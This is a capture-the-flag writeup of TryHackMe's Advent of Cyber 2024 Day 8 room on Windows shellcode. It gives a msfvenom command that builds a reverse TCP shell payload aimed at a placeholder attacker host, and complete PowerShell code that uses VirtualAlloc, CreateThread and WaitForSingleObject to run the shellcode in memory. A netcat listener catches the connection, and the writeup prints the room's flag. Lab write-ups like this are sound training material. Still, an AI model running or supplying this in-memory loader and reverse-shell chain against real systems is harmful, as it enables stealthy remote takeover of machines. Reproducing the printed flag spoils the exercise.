


# **TryHackMe Writeup: Day 8 - Shellcodes (Advent of Cyber 2024)**

## **Overview**
- **Room Name**: Day 8: Shellcodes
- **Difficulty**: Medium
- **Category**: Exploitation
- **Objective**: Learn how to generate and execute shellcode for reverse shells using PowerShell and Windows API.
- **Tools**: Msfvenom, PowerShell, Windows API

---

## **Table of Contents**
1. [Introduction](#introduction)
2. [Enumeration](#enumeration)
3. [Exploitation](#exploitation)
4. [Post-Exploitation](#post-exploitation)
5. [Conclusion](#conclusion)

---

## **Introduction**

In this challenge, we explore the fundamentals of writing and executing shellcode on a Windows machine. By leveraging tools like Msfvenom and PowerShell, we generate a reverse shell payload and execute it using Windows API functions such as `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject`. This challenge demonstrates how attackers can dynamically interact with the operating system to execute malicious code stealthily.

---

## **Enumeration**

### Step 1: Understanding Windows API Functions

The Windows API provides essential functions for interacting with the operating system. In this task, we use the following:
1. **`VirtualAlloc`**: Allocates memory in the process's address space for the shellcode.
2. **`CreateThread`**: Creates a new thread to execute the shellcode.
3. **`WaitForSingleObject`**: Ensures the thread completes execution before proceeding.

These functions are accessed via PowerShell Reflection, allowing dynamic interaction with the Windows API without relying on precompiled binaries.

---

## **Exploitation**

### Step 2: Generating Shellcode with Msfvenom

We use Msfvenom to generate a reverse shell payload in PowerShell format.

#### Command:
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=ATTACKBOX_IP LPORT=4444 -f powershell
```

#### Output:
The generated shellcode is a hex-encoded byte array:
```powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,0x00,0x00,0x00,0x60,0x89,...
```

---

### Step 3: Executing Shellcode with PowerShell

1. Establish an RDP connection to the target machine (username: Glitch).
2. Open PowerShell on the target machine.
3. Copy and paste the following code to define Windows API functions:

#### Note:
*To paste into PowerShell, right-click on the top bar of the PowerShell window, go to 'Edit', then select 'Paste'.*

#### PowerShell Code:
```powershell
$VrtAlloc = @"
using System;
using System.Runtime.InteropServices;
public class VrtAlloc{
    [DllImport("kernel32")]
    public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
}
"@
Add-Type $VrtAlloc

$WaitFor = @"
using System;
using System.Runtime.InteropServices;
public class WaitFor{
    [DllImport("kernel32.dll", SetLastError=true)]
    public static extern UInt32 WaitForSingleObject(IntPtr hHandle, UInt32 dwMilliseconds);
}
"@
Add-Type $WaitFor

$CrtThread = @"
using System;
using System.Runtime.InteropServices;
public class CrtThread{
    [DllImport("kernel32", CharSet=CharSet.Ansi)]
    public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
}
"@
Add-Type $CrtThread
```

4. Paste the generated shellcode into PowerShell:
```powershell
[Byte[]] $buf = 0xfc,0xe8,0x82,... # Replace with your generated shellcode
```

5. Execute the shellcode using the following commands:
```powershell
[IntPtr]$addr = [VrtAlloc]::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $addr, $buf.Length)
$thandle = [CrtThread]::CreateThread(0, 0, $addr, 0, 0, 0)
[WaitFor]::WaitForSingleObject($thandle, [uint32]"0xFFFFFFFF")
```

---

### Step 4: Establishing a Reverse Shell

1. On your AttackBox or Kali machine, start a Netcat listener:
```bash
nc -lvnp 4444
```
2. Once executed on the target machine (Glitch), you should receive a connection back on port `4444`.

#### Screenshot:
  
*This screenshot shows a successful reverse shell connection.*

---

## **Post-Exploitation**

### Step 5: Retrieving the Flag

After establishing a reverse shell connection:
1. Navigate to the Desktop directory:
```bash
cd C:\Users\glitch\Desktop
dir
```
2. View the contents of `flag.txt`:
```bash
type flag.txt
```

#### Flag:
```
AOC{GOT_MY_ACCESS_B@CK007}
```

#### Screenshot:
  
*This screenshot shows the retrieved flag from Glitch's Desktop.*

---

## **Conclusion**

This challenge demonstrated how to generate and execute shellcode for reverse shells using Msfvenom and PowerShell Reflection.

### Key Takeaways:
1. **Windows API**: Functions like `VirtualAlloc`, `CreateThread`, and `WaitForSingleObject` are commonly used for executing shellcode in memory.
2. **PowerShell Reflection**: Enables dynamic interaction with Windows API functions without precompiled binaries.
3. **Reverse Shells**: A powerful technique for gaining remote access to target systems.

By understanding these techniques and tools, security professionals can better defend against similar exploitation attempts.

---